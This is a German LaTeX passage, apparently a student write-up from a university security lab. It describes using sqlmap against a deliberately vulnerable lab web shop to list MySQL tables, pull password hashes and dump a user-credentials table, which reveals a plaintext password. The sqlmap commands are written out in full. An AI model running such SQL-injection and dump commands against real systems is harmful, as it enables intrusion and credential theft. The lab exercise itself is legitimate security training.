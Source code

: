 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{verbatim}
Database: mysql
[23 tables]
+---------------------------------------+
| user                                  |
| columns_priv                          |
| db                                    |
| event                                 |
| func                                  |
| general_log                           |
| help_category                         |
| help_keyword                          |
| help_relation                         |
| help_topic                            |
| host                                  |
| ndb_binlog_index                      |
| plugin                                |
| proc                                  |
| procs_priv                            |
| servers                               |
| slow_log                              |
| tables_priv                           |
| time_zone                             |
| time_zone_leap_second                 |
| time_zone_name                        |
| time_zone_transition                  |
| time_zone_transition_type             |
+---------------------------------------+
\end{verbatim}

Die erste Datenbank (webshop) sah nicht wichtig für Benutzerdaten aus, da sie als Tabellen nur "`artikel"' und "`logs"' besaß. Die nächste Datenbank jedoch hieß \textit{secureuserdata} und besaß eine Tabelle "`accessdata"'.
Diese Tabelle haben wir zunächst nach Passwörtern durchsuchen lassen (mit dem -\,-passwords befehl):

\begin{verbatim}
sqlmap -u hackshop.seclab.uni-paderrborn.de/details\_tools.php --data=tool=1 --passwords
-D secureuserdata -T accessdata
\end{verbatim}

Es gab einige Ergebnisse, allerdings keins mit dem Namen "`jack"' (sondern nur so etwas wie "`root"', "`phpmyadmin"' usw.). Da alle auf diese weise gefundenen Passwörter gehashed waren haben wir die Tabelle für weitere Hinweise einfach mal so via -\,-dump Befehl ausgeben lassen. Dabei haben wir den Benutzer "`jack"' angegeben:

\begin{verbatim}
sqlmap -u hackshop.seclab.uni-paderrborn.de/details\_tools.php --data=tool=1 --dump -D
secureuserdata -T accessdata -U jack
\end{verbatim}

Das Ergebnis war der Eintrag "`jack"' mit der id 3 und dem Passwort "`london"'. Demnach wurde das Passwort wohl unverschlüsselt in der Tabelle abgelegt.
\end{document}
